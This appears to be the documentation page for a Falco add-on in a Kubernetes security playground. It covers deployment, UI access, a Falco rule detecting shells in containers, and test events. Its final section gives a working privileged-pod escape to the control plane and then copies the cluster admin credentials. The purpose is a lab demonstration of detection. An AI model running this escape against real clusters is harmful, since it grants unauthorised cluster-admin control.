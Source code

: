 # Add-On: Falco

## Deploy

The deployment of Falco runtime security is very straigt forward with the playground. Simply execute the script `deploy-falco.sh`, everything else is prepared.

```sh
deploy-falco.sh
```

To ignore events triggerd by services belonging to the playground environment, you can easily whitelist all the playground components by running the following script.

```sh
whitelist_playground_ns.sh
```

Rerun the script whenever you're deploying additional playground components.

Falco is integrated with Prometheus and Grafana as well. A Dashboard is available for import with the ID 11914.

![alt text](https://raw.githubusercontent.com/mawinkler/c1-playground/master/images/falco-grafana.png "Grafana Dashboard")

## Access

Follow the steps for your platform below. A file called `services` is either created or updated with the link and the credentials to connect to smartcheck.

***Linux***

By default, the Falco UI is on port 8082.

Example:

`Falco UI on: http://192.168.1.121:8082/ui/#/`

***Cloud9***

See: [Access Smart Check (Cloud9)](./container-security.md#access-smart-check), but use the `proxy_listen_port`s configured in your config.json (default: 8082) and choose Source Anywhere. Don't forget to check your inbound rules to allow the port.

Alternatively, you can get the configured port for the service with `cat services`.

Access to the services should then be possible with the public ip of your Cloud9 instance with your configured port(s).

Examle

`Falco UI: <http://YOUR-CLOUD9-PUBLIC-IP:8082/ui/#/>`

## Try it

To test the k8s auditing try to create a configmap:

```sh
cat <<EOF | kubectl apply -f -
apiVersion: v1
data:
  ui.properties: |
    color.good=purple
    color.bad=yellow
    allow.textmode=true
  access.properties: |
    aws_access_key_id = AKIAXXXXXXXXXXXXXXXX
    aws_secret_access_key = 1CHPXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
kind: ConfigMap
metadata:
  name: awscfg
EOF
```

If you want to test out own falco rules, create a file called `falco/additional_rules.yaml` write your rules. It will be included when running `deploy-falco.sh`.

Example:

```yaml
- macro: container
  condition: container.id != host

- macro: spawned_process
  condition: evt.type = execve and evt.dir=<

- rule: (AR) Run shell in container
  desc: a shell was spawned by a non-shell program in a container. Container entrypoints are excluded.
  condition: container and proc.name = bash and spawned_process and proc.pname exists and not proc.pname in (bash, docker)
  output: "Shell spawned in a container other than entrypoint (user=%user.name container_id=%container.id container_name=%container.name shell=%proc.name parent=%proc.pname cmdline=%proc.cmdline)"
  priority: WARNING
```

### Generate some events

```sh
docker run -it --rm falcosecurity/event-generator run syscall --loop
```

### Fun with privileged mode

```sh
function shell () {
  kubectl run shell --restart=Never -it --image mawinkler/kod:latest \
  --rm --attach \
  --overrides \
    '
    {
      "spec":{
        "hostPID": true,
        "containers":[{
          "name":"kod",
          "image": "mawinkler/kod:latest",
          "imagePullPolicy": "Always",
          "stdin": true,
          "tty": true,
          "command":["/bin/bash"],
          "nodeSelector":{
            "dedicated":"master"
          },
          "securityContext":{
            "privileged":true
          }
        }]
      }
    }
    '
}
```

You can paste this into a new file `shell.sh` and source the file.

```sh
. ./shell.sh
```

Then you can type the following to demonstrate a privilege escalation in Kubernetes.

```sh
shell
```

If you don't see a command prompt, try pressing enter.

```sh
root@shell:/# godmode
root@playground-control-plane:/# 
```

You're now on the control plane of the cluster and should be kubernetes-admin.

If you're wondering what you can do now...

```sh
mkdir -p /root/.kube
cp /etc/kubernetes/admin.conf /root/.kube/config
kubectl auth can-i create deployments -n kube-system
```

```sh
kubectl create deployment echo --image=inanimate/echo-server
kubectl get pods
```
